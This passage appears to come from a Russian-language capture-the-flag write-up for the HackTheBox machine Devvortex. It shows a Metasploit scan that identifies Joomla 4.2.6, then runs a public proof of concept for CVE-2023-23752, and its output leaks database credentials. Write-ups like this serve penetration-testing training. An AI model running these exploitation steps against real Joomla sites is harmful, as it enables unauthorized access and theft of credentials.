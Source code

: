 ```
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.11.242
RHOSTS => 10.10.11.242
msf6 auxiliary(scanner/http/joomla_version) > set VHOST dev.devvortex.htb
VHOST => dev.devvortex.htb

```
Запускаем скрипт и получаем версию

```
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: nginx/1.18.0 (Ubuntu)
[+] Joomla version: 4.2.6
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## 7. Находим версию Joomla CMS **4.2.6**

Ищем в Google публичные эксплойты для этой версии Joomla и находим свежую уязвимость CVE-2023-23752.
Также ищем эксплойт и находим вот этот PoC https://github.com/adhikara13/CVE-2023-23752


# Initial access and exploitation 

## 8. Прочтите документацию по эксплойтам и запустите этот скрипт.

```

└─$ python3 CVE-2023-23752.py -u dev.devvortex.htb -o dump.txt
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => dump.txt

```

Эта уязвимость позволяет вам сбросить пароль администратора Joomla и сохранить его в файле dump.txt.

## 9. Зайдите в панель администрирования и авторизуйтесь
